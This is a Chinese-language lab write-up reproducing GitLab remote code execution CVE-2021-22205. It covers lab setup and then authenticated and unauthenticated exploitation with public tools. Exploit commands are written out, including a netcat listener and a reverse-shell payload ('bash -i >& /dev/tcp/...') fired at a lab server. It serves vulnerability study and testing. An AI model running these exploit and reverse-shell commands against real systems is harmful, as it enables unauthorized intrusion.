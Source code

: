 # 0x01 环境搭建
使用环境：CentOS7.6.1810_x64_en-us  
下载rpm安装包：https://packages.gitlab.com/gitlab/gitlab-ce/packages/ol/7/gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
安装：sudo rpm -i ./gitlab-ce-13.10.1-ce.0.el7.x86_64.rpm  
修改第1处配置：sudo vim /etc/gitlab/gitlab.rb
```
external_url 'http://192.168.202.133:1028'
nginx['listen_addresses'] = ['*', '[::]']
nginx['listen_port'] = 1028
nginx['listen_https'] = false
```
修改第2处配置：sudo vim /opt/gitlab/embedded/conf/nginx.conf
```
server {
        listen       *:1028;
        server_name  192.168.202.133;
        if ($http_host = "") {
            set $http_host_with_default "ip:1028";
        }
```
临时关闭防火墙
```
sudo systemctl stop firewalld
systemctl status firewalld
```
重新加载配置文件
```
gitlab-ctl reconfigure
```
重启gitlab
```
gitlab-ctl restart
```
成功配置后，访问目标地址如下图  
![image](./pic/1.png)  
首次访问需要更改密码，此处更改密码对应的是管理员用户：admin@example.com  
通过登录界面的注册功能，注册一个新用户，并登录管理员用户通过注册申请，最终登录普通用户如下图  
![image](./pic/2.png)  
# 0x02 漏洞复现1（需要验证）
影响版本  
Gitlab CE/EE < 13.10.3  
Gitlab CE/EE < 13.9.6  
Gitlab CE/EE < 13.8.8  

直接使用工具[https://github.com/mr-r3bot/Gitlab-CVE-2021-22205](https://github.com/mr-r3bot/Gitlab-CVE-2021-22205)复现漏洞会有2个小问题  
1、当验证用户使用管理员时，程序会报错，如下图  
![image](./pic/a.png)  
根据漏洞的基本原理及报错提示，大概猜测报错原因是管理员页面的html内容和普通用户页面的html内容不一致  
2、当验证用户使用普通用户时，提示RCE成功触发，但是没有回显，如下图  
![image](./pic/3.png)  
将漏洞利用的方式改为创建文件，命令如下
```
python3 ./exploit.py -u ybdtd -p nihaomadadada -t http://192.168.202.133:1028 -c "touch ybdtybdt.txt"
```
提示RCE成功触发，到服务器端查看，发现成功创建此文件，用户权限是git，如下图  
![image](./pic/4.png)  
# 0x03 漏洞复现2（不需要验证）
无需验证的原理是，可先向[http://192.168.202.133:1028/users/sign_in](http://192.168.202.133:1028/users/sign_in)发起请求获取到如下token
```
<meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="FDMYEP3KEj0GcWHB6ordjmI0rX5kC3zNOalicxxvG4KaDHWgQuEzvpYStFw3XfxVxeD67MNvIxkoxIGRuY/kDg==" />
```
然后带着token无需登录即可访问上传接口

借助工具：https://github.com/Al1ex/CVE-2021-22205  
vps上开启监听
```
nc -lnvvvp 1024
```
执行如下命令反弹shell
```
python3 ./CVE-2021-22205.py -a true -t http://192.168.202.133:1028 -c "bash -i >& /dev/tcp/xx.xx.xx.xx/1024 0>&1"
```
成功接收到反弹shell，如下图  
![image](./pic/5.png)  
# 0x04 参考链接
https://mp.weixin.qq.com/s/cy8OOzHD28Of3zC32S_4ow  
https://blog.csdn.net/yzd524850313/article/details/113118193  
https://www.jianshu.com/p/56541f6c01a5  
https://www.cnblogs.com/ybit/p/14918949.html  
https://blog.csdn.net/smellycat000/article/details/121005824  
